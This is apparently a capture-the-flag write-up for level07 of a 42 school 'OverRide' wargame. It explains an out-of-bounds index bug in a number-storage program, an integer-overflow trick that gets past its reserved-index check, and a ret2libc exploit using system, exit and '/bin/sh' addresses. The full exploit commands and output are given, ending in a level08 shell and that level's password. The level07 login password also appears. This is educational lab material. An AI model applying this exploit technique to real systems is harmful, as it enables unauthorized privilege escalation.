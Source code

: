 # Underflow and ret2libc

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level07
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level07@192.168.56.101's password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

The program wipes arguments and environment variables. 

It creates a static array of 400 bytes fo data of storage. 

It executes a loop prompting the user to enter the command to execute: `store`, `read` or `quit`.

`store_number()` receives a pointer to `data` array and store a number to the given index. Indexes which are modulo 3 and 183rd index are reserved and cannot be assignable.

`read_number()` receive a pointer to `data` array and read the number stored in the given index.

In case of successful execution of command, `main()` prints corresponding message, as well as for unsuccessful execution.

The last instruction zeroing out memory of `command` and it loop again asking the user a command.

`read_number()` do not check if input index, so it allow to read out of boundaries of `data` array. Over 694rd index, program crash with segfault.
```shell
level07@OverRide:~$ ./payload.py --max 1000 | ./level07
[...]
Input command:  Index:  Number at data[693] is 0
 Completed read command successfully
Input command:  Index:  Number at data[694] is 0
 Completed read command successfully
Input command:  Index: Segmentation fault (core dumped)
```
Saved EIP on `main()` function is `0xf7e45513`. While reading out of boundaries of array saved `EIP` should appear.
```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fceff4 --> 0x1a2d7c
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
EIP: 0x80489f1 (<main+718>:     ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489ee <main+715>:        pop    esi
   0x80489ef <main+716>:        pop    edi
   0x80489f0 <main+717>:        pop    ebp
=> 0x80489f1 <main+718>:        ret
   0x80489f2:   nop
   0x80489f3:   nop
   0x80489f4:   nop
   0x80489f5:   nop
[------------------------------------stack-------------------------------------]
0000| 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0004| 0xffffd6c0 --> 0x1
0008| 0xffffd6c4 --> 0xffffd754 --> 0xffffd88f --> 0x0
0012| 0xffffd6c8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
0016| 0xffffd6cc --> 0xf7fd3000 --> 0xf7e2c000 --> 0x464c457f
0020| 0xffffd6d0 --> 0x0
0024| 0xffffd6d4 --> 0xffffd71c --> 0xf7ffcff4 --> 0x20f1c
0028| 0xffffd6d8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x80489f1 in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
gdb-peda$ x/wx 0xffffd6bc
0xffffd6bc:     0xf7e45513
```
Indeed, on reading 1000 bytes, `EIP` it can be seen.
```shell
level07@OverRide:~$ ./payload.py --max 500 | ./level07 | grep -o "Number at data.*$" | cut -d' ' -f5 | sort -hu | sed 's/^/printf "0x%08x" /e' | grep 0xf7e45513
0xf7e45513
level07@OverRide:~$
```
Or without `payload.py`
```shell
level07@OverRide:~$ python -c "print(0xf7e45513)"
4158936339
level07@OverRide:~$ for i in {0..500}; do (echo read; echo $i; echo quit) | ./level07 | if [ $(grep -oE '[0-9]+$') -eq 4158936339 ]; then echo "EIP is on index $i"; fi; done
EIP is on index 114
```

While reading/storing a number from data storage, the index is used to determine the absolute address from where to read/write strating from beggining of `data` array.
```
data[index<<2] = number
```
On writting to index 1 it will write to `data[1 << 2] = number`, same as `data[4] = number` .
On writting to index 114 it will write to `data[114 << 2] = number`, same as `data[456] = number` .

In the binary representation (32 bits), value `114` looks like:
```
0000 0000   0000 0000   0000 0000   0111 0010
```
Shift operation is destructive. Excess bits shifted off to the left are discarded, and zero bits are shifted in from the right.

Knowing that `store_number()` use rigth-shift operation (multiplication x4) `data[index << 2] = number`, first two MSB bits can be set switch on.

In the first time it will make pass the condition %3, and in the second time at the time of <<2 will result in index 456
| Binary value                                    | Decimal value  | Modulo result | Usable | Binary value after shift <<2                    | Decimal value after shift <<2 |
|-------------------------------------------------|----------------|---------------|--------|-------------------------------------------------|-------------------------------|
| `0100 0000   0000 0000   0000 0000   0111 0010` | 1073741938     | 1             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1000 0000   0000 0000   0000 0000   0111 0010` | 2147483762     | 2             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1100 0000   0000 0000   0000 0000   0111 0010` | 3221225586     | 0             | No     | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |

Retrieve `system()`, `exit()` and `"/bin/sh"` addresses.
```gdb
[...]
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```
Convert them to decimal values.
```gdb
gdb-peda$ p/d 0xf7e6aed0
$3 = 4159090384
gdb-peda$ p/d 0xf7e5eb70
$4 = 4159040368
gdb-peda$ p/d 0xf7f897ec
$5 = 4160264172
```
Decimal values can be stored in data storage following by `quit` command to return from `main()` into a new shell process.

| Value     | Address     | Decimal value | Index                      |
|-----------|-------------|---------------|----------------------------|
| system()  | 0xf7e6aed0  | 4159090384    | 114(1073741938,2147483762) |
| exit()    | 0xf7e5eb70  | 4159040368    | 115                        |
| "/bin/sh" | 0xf7f897ec  | 4160264172    | 116                        |

# Exploit
With index 1073741938
```shell
level07@OverRide:~$ (echo -e "store\n4159090384\n1073741938\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
With index 2147483762
```shell
level07@OverRide:~$ (echo -e "store\n4159090384\n2147483762\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
